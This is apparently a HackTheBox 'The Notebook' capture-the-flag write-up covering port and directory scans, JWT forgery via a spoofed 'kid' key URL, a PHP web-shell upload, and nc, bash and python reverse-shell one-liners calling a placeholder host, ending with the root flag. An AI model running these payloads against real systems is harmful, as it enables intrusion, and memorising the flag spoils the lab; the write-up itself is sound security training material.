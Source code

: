 
    title: 'HackTheBox: The Notebook',
    author: 'Nawras M. Amin'
};

# HackTheBox: The Notebook | Writeup

<small>July 17th 2021 </small>

Medium (5/10 Avg)

## Initial Scan:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-17 23:58 EDT
Nmap scan report for 10.10.10.230
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)kali
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/17%OT=22%CT=1%CU=30603%PV=Y%DS=2%DC=I%G=Y%TM=60F3A6E
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Useful notes:

-   Running Linux

Open Ports:

-   22: SSH
-   80: http with nginx v1.14.0
-   10010: rxapi

## Port 80

## FuFF Scan:

```bash
$ ffuf -u http://10.10.10.230/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt | tee ffuf_1.out

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.230/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

register                [Status: 200, Size: 1422, Words: 193, Lines: 33]
admin                   [Status: 403, Size: 9, Words: 1, Lines: 1]
login                   [Status: 200, Size: 1250, Words: 173, Lines: 31]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
:: Progress: [43003/43003] :: Job [1/1] :: 214 req/sec :: Duration: [0:02:06] :: Errors: 0 ::
```

## Webpage

-   Presence of a login page & a register page
    ![Untitled](/assets/20210718001500.png)

-   Does not seem to be an sqli injection after an initial sqlmap scan and some manual attack vectors testing

```bash
[01:05:58] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[01:05:58] [WARNING] HTTP error codes detected during run:
400 (Bad Request) - 257 times
```

-   Does not appear to be a XSS flaw to exploit at first. Might need to check more.
    ![Untitled](/assets/20210718003530.png)

-   The url also could have something meaningful:
    `http://10.10.10.230/7457c1fa-d329-48fe-b077-8d53e9240a4d/notes`

## Nginx vulnerabilities

Through Nmap we saw that we are running nginx version `1.14.0`

The [nginx changelist](http://nginx.org/en/CHANGES-1.14) shows that this version came out in 2018, which could mean that there has been some that were patched.

We can also see that in version `1.14.1`, there was a fix to 2 security flaws:

1. Security: when using HTTP/2 a client might cause excessive memory consumption (CVE-2018-16843) and CPU usage (CVE-2018-16844).

2. Security: processing of a specially crafted mp4 file with the ngx_http_mp4_module might result in worker process memory disclosure (CVE-2018-16845).

-   When searching through searchsploit:

```bash
$ searchsploit nginx
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nginx (Debian Based Distros + Gentoo) - 'logrotate' Local Privilege Escalation                                                        | linux/local/40768.sh
Nginx 0.6.36 - Directory Traversal                                                                                                    | multiple/remote/12804.txt
Nginx 0.6.38 - Heap Corruption                                                                                                        | linux/local/14830.py
Nginx 0.6.x - Arbitrary Code Execution NullByte Injection                                                                             | multiple/webapps/24967.txt
Nginx 0.7.0 < 0.7.61 / 0.6.0 < 0.6.38 / 0.5.0 < 0.5.37 / 0.4.0 < 0.4.14 - Denial of Service (PoC)                                     | linux/dos/9901.txt
Nginx 0.7.61 - WebDAV Directory Traversal                                                                                             | multiple/remote/9829.txt
Nginx 0.7.64 - Terminal Escape Sequence in Logs Command Injection                                                                     | multiple/remote/33490.txt
Nginx 0.7.65/0.8.39 (dev) - Source Disclosure / Download                                                                              | windows/remote/13822.txt
Nginx 0.8.36 - Source Disclosure / Denial of Service                                                                                  | windows/remote/13818.txt
Nginx 1.1.17 - URI Processing SecURIty Bypass                                                                                         | multiple/remote/38846.txt
Nginx 1.3.9 < 1.4.0 - Chuncked Encoding Stack Buffer Overflow (Metasploit)                                                            | linux/remote/25775.rb
Nginx 1.3.9 < 1.4.0 - Denial of Service (PoC)                                                                                         | linux/dos/25499.py
Nginx 1.3.9/1.4.0 (x86) - Brute Force                                                                                                 | linux_x86/remote/26737.pl
Nginx 1.4.0 (Generic Linux x64) - Remote Overflow                                                                                     | linux_x86-64/remote/32277.txt
PHP-FPM + Nginx - Remote Code Execution                                                                                               | php/webapps/47553.md

```

Nothing seems interesting in this list. Another deadend.

## JWT Exploitation

![Untitled](/assets/20210718033649.png)

## Foothold:

The vulnerability in the web application does not lie within the application itself, but rather the authentication. The app is using JWT to manage users and roles.

-   The "kid" parameter is used in the header of the token, and is pointing to a webserver hosting the private key. If we change this url, we can force the validation of the JWT by providing our own private key.
-   Generate a RSA private key: `ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key`
-   Setup a webserver to host the private key: `python3 -m http.server`
-   Forge the token using the private key and the information required. Set the `admin_cap` parameter of the payload to true:

```json
{
    "username": "xd",
    "email": "xd@xd.com",
    "admin_cap": true
}
```

Forged JWT:

```
    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yOjgwMDAvand0UlMyNTYua2V5In0.eyJ1c2VybmFtZSI6InhkIiwiZW1haWwiOiJ4ZEB4ZC5jb20iLCJhZG1pbl9jYXAiOnRydWV9.CFkbzqfbYi3AKeZnBWvHJ1Zt_pIxD08HXEOcIgDA-6fifRq6GHE9k3SZckVeeqKh1DF6FwApNBovAPbE4_axEWNqROAC8bSMPPGyfj7rCOUggLl5jqHp7EBzQ-TfMlJ4pzIYVpk-L10U2lhvJFSKUZwnvtJqYIBirOLAOaDky7ETDYxagjaNWen196jHmXEvnf_SMcWLqEHssoBPPp7Dt_J8cOO0prqZ69W5_s6qrhcNPmSwAScM_GtKa35eAC2y2bOCPrOJvLqF3WWyIshZViytyJovtvW2uMms6I9J9KCnI2noXB6q9KsNb9bsBaQkyRINiiAFQcil6XnLdTWXXO6KvIrcmSnJ6a5fDHiBXncrDkN0yED981LLXtLO3XKBfDjjZZhgMzybWQIeGMKpd2soI_TH9IKvzhz3x6svDdYkvClzt0n8aCVJPpTZBxBwGXiILLhsZnmvr8xUs7GxjeauXqhV6HILUy9bYRuoQn29IyYSZooYUu00qtVhUfgrNlHTNonUy9zxks-WRWeJp6CzZzsh1pMXkQUz1OGIICuz1KX61n4eKSsK83lBM29QBXXk7zwk5HL5BiyxsWZaQhHmaHDu_mu9k5Oa-VBzLDyGqKWAKadPAo3e1CwnMjk4VR8n054aQ9UftTsgVqpkHmei5ajA9SVc08gMQfYwmI0
```

Change the cookies before making the request to the webpage to include the newly forged webtoken:

```bash
Cookies:
auth=<newly_forged_token>;
uuid=<your_uuid>
```

## RCE

Once we get access to the admin panel, we also get access to the admin notes.
A particular note here states:

![Untitled](/assets/20210718155856.png)

-   In the admin panel, we also have access to a file upload.
-   We can try to upload a webshell such as this one to possible get RCE, From this [gist](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

    ```php
    <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
    </form>
    <pre>
    <?php
    	if(isset($_GET['cmd']))
    	{
    		system($_GET['cmd']);
    	}
    ?>
    </pre>
    </body>
    </html>

    ```

    Surely enough the file goes through and we get RCE:
    ![Untitled](/assets/20210718160348.png)

-   We can then proceed to get a reverse shell with a command like this (but there are plenty of commands out there):

    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <RHOST> <RPORT> >/tmp/f
    ```

    -   Other possible ones:
        ```bash
        bash -i >& /dev/tcp/<RHOST>/<RPORT> 0>&1
        ```
        or
        ```python
        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<RHOST>",<RPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        ```

![Untitled](/assets/20210721211051.png)

Root flag:
2414e89cc5b4ae800f860afebcceaf9f

